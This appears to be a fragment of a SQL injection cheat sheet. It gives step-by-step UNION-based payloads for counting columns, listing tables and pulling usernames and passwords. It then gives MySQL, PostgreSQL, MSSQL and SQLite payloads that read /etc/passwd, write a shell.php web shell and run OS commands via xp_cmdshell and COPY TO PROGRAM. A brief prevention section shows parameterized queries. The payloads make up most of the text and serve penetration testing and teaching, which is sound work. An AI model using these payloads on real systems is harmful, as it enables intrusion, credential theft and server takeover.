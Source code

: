 **Extracting Data:**
```sql
# Find number of columns
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --  (error = 2 columns)

# Find injectable columns
' UNION SELECT NULL, NULL --
' UNION SELECT 'test', NULL --

# Extract database name
' UNION SELECT database(), NULL --

# List tables
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --

# List columns
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --

# Extract data
' UNION SELECT username, password FROM users --
```

**Database-Specific Payloads:**

```sql
-- MySQL
' UNION SELECT @@version, NULL --
' UNION SELECT load_file('/etc/passwd'), NULL --
' INTO OUTFILE '/var/www/html/shell.php' --

-- PostgreSQL
' UNION SELECT version(), NULL --
'; COPY (SELECT '') TO PROGRAM 'id' --

-- MSSQL
' UNION SELECT @@version, NULL --
'; EXEC xp_cmdshell 'whoami' --

-- SQLite
' UNION SELECT sqlite_version(), NULL --
```

### Prevention

```python
# NEVER concatenate user input
# BAD
query = "SELECT * FROM users WHERE username = '" + user_input + "'"

# GOOD - Use parameterized queries
cursor.execute("SELECT * FROM users WHERE username = ?", (user_input,))

# Or use ORM
user = User.query.filter_by(username=user_input).first()
```
